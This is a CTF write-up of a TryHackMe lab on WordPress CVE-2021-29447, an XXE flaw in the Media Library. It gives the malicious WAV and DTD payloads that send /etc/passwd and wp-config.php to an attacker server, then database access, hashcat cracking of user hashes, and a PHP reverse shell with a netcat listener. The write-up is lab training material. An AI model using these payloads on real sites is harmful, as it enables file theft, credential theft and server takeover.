





# WordPress CVE-2021-29447 [TryHackMe](https://tryhackme.com/room/wordpresscve202129447) Writeup

--------------------------------------------------------------------------------


--------------------------------------------------------------------------------

## Index

- [Overview of the Exploit](#overview-of-the-exploit)

  - [Impact](#impact)

  - [Exploitation](#exploitation)

- [Ready, Set, Go!](#ready-set-go!)

  - [Constructing the Payload](#constructing-the-payload)

    - [Potential Errors](#potential-errors)

  - [Arbitrary File Access](#arbitrary-file-access)

    - [Getting the config file](#getting-the-config-file)

  - [Database Access](#database-access)

    - [Cracking Credentials](#cracking-credentials)

  - [Getting a Reverse Shell](#getting-a-reverse-shell)

- [Final Thoughts and Additions](#final-thoughts-and-additions)

--------------------------------------------------------------------------------

### Overview of the Exploit



This is an XXE (External XML Entities) exploit taking advantage of the XML Interpreter's poor configuration which was discovered by researchers at SonarSource.

Specifically, this exists in the WordPree Media Library and can only be exploited if the CMS is using PHP 8 _and_ the attacker has the ability to upload files.

#### Impact

- Arbitary File Disclosure

  - The contents of any file on the host's file system could be retrieved
  - Notably, this included `wp-config.php` containing sensitive data

- SSRF (Server-Side Request Forgery)

  - HTTP requests could be made on the behalf of the WordPress Installation

#### Exploitation

First, identify the vunerablity with tools like WPScan



Now we try to get a user's credentials who also has the ability to _upload_ files onto the website.



Now we can create a malicious WAV file.

```bash
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://[Our IP]:[PORT]/[FILE].dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
```

Now create an `evil.dtd` file to store the next part of the payload

```dtd
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY % trick SYSTEM 'http://YOURSERVERIP:PORT/?p=%file;'>" >
```

Now open a webserver on your machine with:

```bash
php -S 0.0.0.0:[PORT]
```

And you'll receive something like this...



The request made to the server is the base64 encoded version of our query

--------------------------------------------------------------------------------

### Ready Set Go!

--------------------------------------------------------------------------------

```bash
export IP=10.10.83.190
```

#### Constructing the Payload

Using the methodology of the exploit just explained to us - we can login as `test-corp` with the password `test`.

Once we navigate to the upload section, we can already notice a cheeky `payload.wav` waiting for us and big hint as to what is about to come.



From above we're going to craft first our `payload.wav` and then our `dtd` file

```xml
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY % trick SYSTEM 'http://[MY IP]:9999/?p=%file;'>" >
```

And our payload file can be constructed with the command from earlier:

```bash
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://[MY IP]:[PORT]/NAMEEVIL.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
```

Start our Server

```bash
php -S 0.0.0.0 9999
```

##### Potential Errors

This is where naming is super important. At first I had a minor error in the case of my `dtd` file which yielded:

```
[Sat Aug 28 06:55:19 2021] 10.10.83.190:49114 Accepted
[Sat Aug 28 06:55:19 2021] 10.10.83.190:49114 [200]: (null) /NAMEEVIL.dtd
[Sat Aug 28 06:55:19 2021] 10.10.83.190:49114 Closing
[Sat Aug 28 06:55:19 2021] 10.10.83.190:49114 Accepted
[Sat Aug 28 06:55:19 2021] 10.10.83.190:49114 [200]: (null) /NAMEEVIL.dtd
[Sat Aug 28 06:55:19 2021] 10.10.83.190:49114 Closing
```

#### Arbitrary File Access

You can correct this by double checking your the file names in your `wav` file and the local one - and ensure your `php` server is in the right directory!

If you set that all correctly, once you upload your `wav` file you'll get this:

```
[Sat Aug 28 06:20:21 2021] 10.10.83.190:49060 [404]: (null) /?p=hVTbjpswEH3fr+CxlYLMLTc/[SNIP] - No such file or directory
```

All the characters between `?p=` and `- No such file or directory` is the base64 encoded result of the file we wanted.

At this point you can use the `php` decode like the example showed but I used CyberChef.

Note that with [CyberChef](https://gchq.github.io/CyberChef), you have to first decode it `From Base64` then `Raw Inflate` it. Simply decoding it yields weird and strange characters.

##### Getting the config file

Now that we have arbitrary file access, we can try grab `wp-config.php`. I know from doing other CTFs that the WordPress root installation is likely in `/var/www/html` and updating our `NAMEEVIL.dtd` to find `/var/www/html/wp-config.php` confirms my suspicions

Decode it and grab the credentials that come in the first few lines of it!

#### Database Access

Now that we have potential credentials for the database, we can try access it. I assumed that it would likely be `mysql` as that's typically the DB WordPress uses.

```bash
mysql -h $IP -u [REDACTED] -p
```

And success! This also means `mysql` is running on its _default_ port of 3306 which you can double check with `nmap -sV -p 3306 $IP`.

This also gives us the `mysql` version in the login messages!

We also know which database to use from `wp-config.php` - you can confirm this by using:

```sql
SHOW DATABASES;
```

Which shows the database from `wp-config.php`

```sql
USE [REDACTED];
```

Now check the relevant tables you want to enumerate with:

```sql
SHOW TABLES;
```

```
+--------------------------+
| Tables_in_wordpressdb2   |
+--------------------------+
| wptry_commentmeta        |
| wptry_comments           |
| wptry_links              |
| wptry_options            |
| wptry_postmeta           |
| wptry_posts              |
| wptry_term_relationships |
| wptry_term_taxonomy      |
| wptry_termmeta           |
| wptry_terms              |
| wptry_usermeta           |
| wptry_users              |
+--------------------------+
```

(wptry_ prefixes every table name, matching its configuration in `wp-config.php`)

The `wptry_users` looks juicy.

```sql
SELECT * FROM wptry_users
```

And we notice two entries and three interesting columns: `ID`, `user_login` and `user_pass`

```sql
SELECT ID, user_login, user_pass FROM wptry_users WHERE ID = 1;
```

```
+----+------------+------------------------------------+
| ID | user_login | user_pass                          |
+----+------------+------------------------------------+
|  1 | [REDACTED]   | [REDACTED]                       |
+----+------------+------------------------------------+
```

##### Cracking Credentials

We can crack `user_pass` with `hashcat`. WordPress' hashcat mode is `400`

```bash
hashcat -m 400 -O <HASH> /path/to/rockyou.txt
```

#### Getting a Reverse Shell

And we now have the password for the user with administrative privilege on the website.

We can use PentestMonkeys classic php reverse-shell to gain access onto the machine.

I decided to edit a plugin `hello.php` for my reverse shell.

With my netcat listener:

```bash
netcat -lvnp 9999
```

And the file is located at: `https://10.10.83.190/wp-content/plugins/hello.php`

And we are on!

You can grab the flag at the only users home directory ;)

--------------------------------------------------------------------------------

### Final Thoughts and Additions

I've included my scripts with this writeup - just to automate some generic repetition - feel free to use them!

It's a really nice room - sometimes I did feel that there could be a bit more information handy to us for an easy room but irrespective of that I really enjoyed the walkthrough of initially exploiting it then making a way for ourselves to gain a reverse shell onto it.

--------------------------------------------------------------------------------


